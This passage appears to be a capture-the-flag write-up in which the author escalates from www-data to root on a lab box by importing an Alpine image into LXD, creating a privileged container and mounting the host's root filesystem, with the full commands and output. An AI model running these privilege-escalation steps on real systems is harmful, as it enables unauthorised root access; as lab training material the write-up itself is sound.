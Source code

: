 uploading both files to the victim via python webserver.

```shell
www-data@ubuntu:/tmp$ lsc image import lxd.tar.xz rootfs.squashfs --alias alpine
```

this image worked as intended.

```shell
www-data@ubuntu:/tmp$ lxc image list
+--------+--------------+--------+----------------------------------------+--------+--------+-----------------------------+
| ALIAS  | FINGERPRINT  | PUBLIC |              DESCRIPTION               |  ARCH  |  SIZE  |         UPLOAD DATE         |
+--------+--------------+--------+----------------------------------------+--------+--------+-----------------------------+
| alpine | aef4ed7c5957 | no     | Alpinelinux 3.8 x86_64 (20221202_2028) | x86_64 | 1.96MB | Dec 2, 2022 at 8:31pm (UTC) |
+--------+--------------+--------+----------------------------------------+--------+--------+-----------------------------+
```

```shell
www-data@ubuntu:/tmp$ lxc init alpine privesc -c security.privileged=true
Creating privesc
www-data@ubuntu:/tmp$ lxc list
+---------+---------+------+------+------------+-----------+
|  NAME   |  STATE  | IPV4 | IPV6 |    TYPE    | SNAPSHOTS |
+---------+---------+------+------+------------+-----------+
| privesc | STOPPED |      |      | PERSISTENT | 0         |
+---------+---------+------+------+------------+-----------+
```

```shell
www-data@ubunut:/tmp$ lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
Device host-root added to privesc
```

after starting and executing the container i was root and could navigate to the root folder on the victim.

```shell
www-data@ubuntu:/tmp$ lxc start privesc
www-data@ubuntu:/tmp$ lxc exec privesc /bin/sh
~ # whoami
root
```

```shell
~ # cd ..
/ # cd mnt
/mnt # ls
root
/mnt # cd root
/mnt/root # cd root/
/mnt/root/root # ls
final.txt
```

i found the `final.txt` file and finished the box.

![image](/images/Pasted image 20221202214116.png)

[L0]